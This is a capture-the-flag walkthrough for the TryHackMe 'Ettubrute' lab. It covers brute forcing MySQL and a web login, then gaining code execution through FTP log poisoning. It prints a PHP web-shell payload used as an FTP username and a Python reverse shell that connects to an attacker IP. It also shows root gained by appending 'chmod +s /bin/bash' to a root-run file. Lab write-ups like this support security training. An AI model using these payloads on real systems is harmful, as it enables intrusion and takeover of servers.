---

## Introduction

- Difficulty: Medium
- Time: 180 mins

> You won't be able to just brute your way into this one, or will you?

Room Link: [Ettubrute](https://tryhackme.com/room/ettubrute)

---

## Reconnaissance

Before recon add the following at the end of `/etc/hosts` file for ease of access.

```
10.114.182.241 brute.thm
```

Start with a simple nmap scan.

```
$ nmap -sV -sC -Pn -T4 brute.thm
Starting Nmap 7.99 ( https://nmap.org ) at 2026-08-27 18:51 +0530
Nmap scan report for brute.thm (10.114.182.241)
Host is up (0.20s latency).
Not shown: 996 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.5
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 4f:9e:b9:70:d8:38:0d:cf:c1:75:74:84:68:b0:b3:2a (RSA)
|   256 94:1f:7c:96:8e:db:40:9f:5a:e2:e7:c5:d8:0a:b3:73 (ECDSA)
|_  256 82:58:c5:a6:fd:ed:88:2b:14:0c:cb:19:bf:db:08:35 (ED25519)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Login
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
3306/tcp open  mysql   MySQL 8.0.41-0ubuntu0.20.04.1
| mysql-info: 
|   Protocol: 10
|   Version: 8.0.41-0ubuntu0.20.04.1
|   Thread ID: 42
|   Capabilities flags: 65535
|   Some Capabilities: LongPassword, SupportsTransactions, ConnectWithDatabase, IgnoreSigpipes, Support41Auth, ODBCClient, LongColumnFlag, DontAllowDatabaseTableColumn, InteractiveClient, Speaks41ProtocolOld, SwitchToSSLAfterHandshake, Speaks41ProtocolNew, IgnoreSpaceBeforeParenthesis, FoundRows, SupportsLoadDataLocal, SupportsCompression, SupportsAuthPlugins, SupportsMultipleStatments, SupportsMultipleResults
|   Status: Autocommit
|   Salt: K\x14gK}!7\x0C\x01F[\x04z^[gR\x12\x08H
|_  Auth Plugin Name: caching_sha2_password
| ssl-cert: Subject: commonName=MySQL_Server_8.0.26_Auto_Generated_Server_Certificate
| Not valid before: 2021-10-19T04:00:09
|_Not valid after:  2031-10-17T04:00:09
|_ssl-date: TLS randomness does not represent time
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.10 seconds
```

So we have `21/ftp`, `22/ssh`, `80/http` and `3306/mysql`. Lets check the website first.



A simple login page. Also nothing interesting in the source code.

Let's check for anonymous login in ftp.

```
$ ftp brute.thm
Connected to brute.thm.
220 (vsFTPd 3.0.5)
Name (brute.thm:inferno): anonymous
331 Please specify the password.
Password: 
530 Login incorrect.
ftp: Login failed
ftp> exit
221 Goodbye.
```

Well, worth a try. We have mysql service left. We can use nmap's default scripts to check for some information regarding the service.

```
$ nmap -p 3306 --script mysql-enum brute.thm
Starting Nmap 7.99 ( https://nmap.org ) at 2026-08-27 19:48 +0530
Nmap scan report for brute.thm (10.114.182.241)
Host is up (0.21s latency).

PORT     STATE SERVICE
3306/tcp open  mysql
| mysql-enum: 
|   Valid usernames: 
|     root:<empty> - Valid credentials
|     netadmin:<empty> - Valid credentials
|     test:<empty> - Valid credentials
|     guest:<empty> - Valid credentials
|     user:<empty> - Valid credentials
|     sysadmin:<empty> - Valid credentials
|     administrator:<empty> - Valid credentials
|     webadmin:<empty> - Valid credentials
|     admin:<empty> - Valid credentials
|     web:<empty> - Valid credentials
|_  Statistics: Performed 10 guesses in 2 seconds, average tps: 5.0

Nmap done: 1 IP address (1 host up) scanned in 2.25 seconds
```

---

## Bruteforcing mysql

The room is about brute forcing our way through. Let's try to brute force the mysql password, using `hydra`.

```
$ hydra -l root -P /usr/share/wordlists/rockyou.txt brute.thm mysql
Hydra v9.7 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-08-27 19:49:59
[INFO] Reduced number of tasks to 4 (mysql does not like many parallel connections)
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking mysql://brute.thm:3306/
[3306][mysql] host: brute.thm   login: root   password: <REDACTED>
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2026-08-27 19:50:04
```

Now let's see what information is stored in the database. To login, we use the following command.

```
$ mysql -h brute.thm -u root -p
Enter password: 
ERROR 2026 (HY000): TLS/SSL error: self-signed certificate in certificate chain

$ mysql -h brute.thm -u root -p --skip-ssl
Enter password: 
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 183
Server version: 8.0.41-0ubuntu0.20.04.1 (Ubuntu)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]> SHOW DATABASES;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| website            |
+--------------------+
5 rows in set (0.227 sec)

MySQL [(none)]> USE website;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

SDatabase changed
MySQL [website]> SHOW TABLES;
+-------------------+
| Tables_in_website |
+-------------------+
| users             |
+-------------------+
1 row in set (0.230 sec)

MySQL [website]> SELECT * FROM users;
+----+------------+------------------------------------+---------------------+
| id | username   | password                           | created_at          |
+----+------------+------------------------------------+---------------------+
|  1 | <REDACTED> | <REDACTED>                         | 2021-10-20 02:43:42 |
+----+------------+------------------------------------+---------------------+
1 row in set (0.200 sec)

MySQL [website]>
```

---

## Bruteforcing login page

We have a viable username and it's password hash. I have tried cracking the hash, but of no luck. Let's proceed with the username. Thinking in lines of bruteforcing, we can probably use the username to bruteforce the login page. Let's try.

```
$ ffuf -u http://brute.thm/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=garhauf22rlh1g51a3c3ff6rdv" -d "username=adrian&password=FUZZ" -w /usr/share/wordlists/rockyou.txt -fs 1153

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://brute.thm/index.php
 :: Wordlist         : FUZZ: /usr/share/wordlists/rockyou.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Header           : Cookie: PHPSESSID=garhauf22rlh1g51a3c3ff6rdv
 :: Data             : username=adrian&password=FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 1153
________________________________________________

butterfly               [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 203ms]
lovely                  [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 235ms]
12345                   [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 235ms]
justin                  [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 235ms]
sunshine                [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 235ms]
michael                 [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 235ms]
angel                   [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 235ms]
12345678                [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 235ms]
michelle                [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 235ms]
princess                [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 255ms]
jessica                 [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 314ms]
superman                [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 206ms]
bubbles                 [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 206ms]
[WARN] Caught keyboard interrupt (Ctrl-C)
```

As soon as you get 302 responses, press Ctrl+C. Like here we did not get the exact password to login, but after bruteforcing for some time, any password works when the username is correct. This is the dashboard page.




Trust me, your page will look lot less daunting than mine. This is because I was trying to bruteforce the ftp service before. The thing that you see on pressing the **Log** button, are the ftp logs. So bruteforcing it will generate lots of failed login log entries.

---

## RCE through Log Poisoning

Now, here's what is something new for me as well. It's called **Log Poisoning**. Let me give some context. I tried to bruteforce ftp using `admin` username. If you see, the logs contain the supplied username, as text in the rendered page. So if we supply some PHP payload as the ftp username, that payload will reflect in the web page. Which will result in the page to become an executable PHP file for us. Basically we poisoned the logs with our payload.

> [!INFO]
> Log poisoning is when an attacker injects malicious content into application logs by sending input from an untrusted source, then later causes the system to read, include, or otherwise use those logs. This can lead to things like forged log events, stored XSS, or even code execution in some setups.

We poison the log by the following

```
$ ftp brute.thm
Connected to brute.thm.
220 (vsFTPd 3.0.5)
Name (brute.thm:inferno): '<?php system($_GET["cmd"]); ?>'
331 Please specify the password.
Password: 
530 Login incorrect.
ftp: Login failed
ftp> exit
221 Goodbye.
```

The username is a PHP payload which enables us to execute shell commands and get the response in the webpage.

To actually get the page become executable, we manually enter the URL http://brute.thm/welcome.php and press Enter. Then click **Log** once. Then visit this URL http://brute.thm/welcome.php?cmd=id to run the `id` command.



Now we basically have RCE on the server. Now I checked and saw that since we are web server user (`www-data`), we cannot read `/home/<REDACTED>/user.txt`, the user flag. Let's check current folder contents.



`config.php` is an interesting file. Now we directly cannot cat the file, because its PHP, so it will mess the output. So I used base64 encoding to get the contents.



Decoding it we get the following



Although it seems like something, I tried to login with it in ftp, ssh, mysql as the user, but nothing worked.

By now I think its better to gain a reverse shell, rather than just manually entering commands in the URL. To do that, we first setup a listener on port 1337.

```
$ rlwrap -cAr ncat -lnvp 1337
```

We use the following URL encoded version of a Python reverse shell

```
python3%20-c%20%22import%20os%2Cpty%2Csocket%3Bs%3Dsocket.socket%28%29%3Bs.connect%28%28%27192.168.137.35%27%2C1337%29%29%3B%5Bos.dup2%28s.fileno%28%29%2C%20fd%29%20for%20fd%20in%20%280%2C1%2C2%29%5D%3Bpty.spawn%28%27%2Fbin%2Fbash%27%29%22
```

which is actually this

```shell
python3 -c "import os,pty,socket;s=socket.socket();s.connect(('192.168.137.35',1337));[os.dup2(s.fileno(), fd) for fd in (0,1,2)];pty.spawn('/bin/bash')"
```

Just change the IP and port for your machine. On entering the command, we get a shell as `www-data`.

---

## Bruteforcing ssh

Next we see an interesting file in the home directory of the user.



(The base word is `ettubrute`. Although I blurred it in the image, it is needed for the rest of the post.)

From the contents of the file, it seems its a recipe to build a wordlist out of the base word given using hashcat rule `best64.rule` with an exclamation mark as well. So let's do that.

```
$ echo -e "ettubrute\nettubrute\!" > base.txt
$ hashcat --stdout base.txt -r /usr/share/hashcat/rules/best66.rule > wordlist.txt
$ head wordlist.txt
ettubrute
eturbutte
ETTUBRUTE
Ettubrute
ettubrute0
ettubrute1
ettubrute2
ettubrute3
ettubrute4
ettubrute5
```

(I did not have `best64.rule` file. I had `best66.rule`. I assumed they would do the same thing.)

The wordlist contains all combinations that are possible through the hashcat ruleset with the base words `ettubrute` and `ettubrute!`. Now let's use this to bruteforce ssh.



Login to the user account using ssh.



---

## Shell as root

Let's look at the other files.





What I get is that, the developer's manager told him to write a script to punch in at every minute. The dev is upset about this, and wrote a revenge script which executes each line of the punch_in file. If we can enter commands at the end of the file, and if the file is run as root (we can assume that), we gain root access.



We first append the text `chmod +s /bin/bash` (within backticks, because without them it didn't work) at the end of punch_in file. It get's executed and `/bin/bash` binary now has SUID bit set. Then we run `/bin/bash -p` and we are root! And we have root flag!
